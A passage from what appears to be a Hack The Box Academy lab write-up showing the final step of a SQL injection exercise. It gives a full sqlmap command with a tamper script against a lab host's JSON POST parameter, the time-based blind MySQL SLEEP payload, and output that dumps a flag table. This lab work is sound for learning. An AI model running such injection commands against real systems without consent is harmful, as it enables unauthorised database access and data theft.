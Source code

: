 ## Step 6 "Get final_flag table"
Then we can finally get the values inside `final_flag` with `-T final_flag` and `--dump` to see the data inside.
```ps
┌─[us-academy-6]─[10.10.15.4]─[htb-ac-1889896@htb-hxqshubmjv]─[~]
└──╼ [★]$ sqlmap -u 'http://94.237.60.55:40755/action.php' -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:40755/shop.html' -H 'Content-Type: application/json' -H 'Origin: http://94.237.60.55:40755' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Sec-GPC: 1' -H 'Priority: u=0' --data-raw '{"id":1}' --batch --tamper=between -D production -T final_flag --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:43:05 /2025-08-23/

[23:43:05] [INFO] loading tamper module 'between'
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[23:43:05] [INFO] resuming back-end DBMS 'mysql' 
[23:43:05] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 3085 FROM (SELECT(SLEEP(5)))sfIq)"}
---
[23:43:05] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[23:43:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[23:43:05] [INFO] fetching columns for table 'final_flag' in database 'production'
[23:43:05] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                       
[23:43:09] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
2
[23:43:20] [INFO] retrieved: 
[23:43:25] [INFO] adjusting time delay to 1 second due to good response times
id
[23:43:32] [INFO] retrieved: content
[23:44:02] [INFO] fetching entries for table 'final_flag' in database 'production'
[23:44:02] [INFO] fetching number of entries for table 'final_flag' in database 'production'
[23:44:02] [INFO] retrieved: 1
[23:44:04] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                                              
HTB{n07_50_h4rd_r16h7?!}
[23:45:55] [INFO] retrieved: 1
Database: production
Table: final_flag
```